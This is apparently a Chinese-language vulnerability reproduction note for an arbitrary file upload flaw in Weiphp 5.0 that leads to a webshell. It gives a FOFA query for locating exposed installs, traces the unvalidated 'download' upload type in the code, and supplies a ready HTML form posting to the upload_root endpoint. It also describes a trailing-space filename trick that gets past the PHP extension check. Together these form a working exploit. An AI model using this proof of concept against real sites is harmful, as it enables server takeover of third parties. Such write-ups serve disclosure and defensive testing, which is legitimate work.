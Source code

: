 # Weiphp5.0上传getshell

## 漏洞描述

Weiphp5.0存在文件上传漏洞，可直接getshell

## 漏洞影响

> Weiphp5.0

## FOFA

> body=”weiphp5.0”

## 漏洞复现

首先在application\common.php 该文件发现上传函数，其验证方式为type=picture，如果type=picture则进行文件验证。

![img](resource/Weiphp5.0上传getshell/1.jpg) 

搜索该函数，发现file.php调用该函数，并且type为download，type为download则不进行验证，最后追踪upload函数看看是否调用该函数。

![img](resource/Weiphp5.0上传getshell/2.jpg) 

发现调用该函数，并且返回json数据

![img](resource/Weiphp5.0上传getshell/3.jpg)  

###构造html表单提交上传

```
<html>

<body>

<form action="http://127.0.0.1/weiphp/public/index.php/home/File/upload_root" method="post"

enctype="multipart/form-data">

<label for="file">Filename:</label>

<input type="file" name="download" id="file" />  

<br />

<input type="submit" name="submit" value="Submit" />

</form>

</body>

</html>
```

用表单进行提交，上传成功（由于该代码有验证是否为php，所以空格绕过即可）

![img](resource/Weiphp5.0上传getshell/4.jpg) 

进行访问，可以看到访问成功。

![img](resource/Weiphp5.0上传getshell/5.jpg)

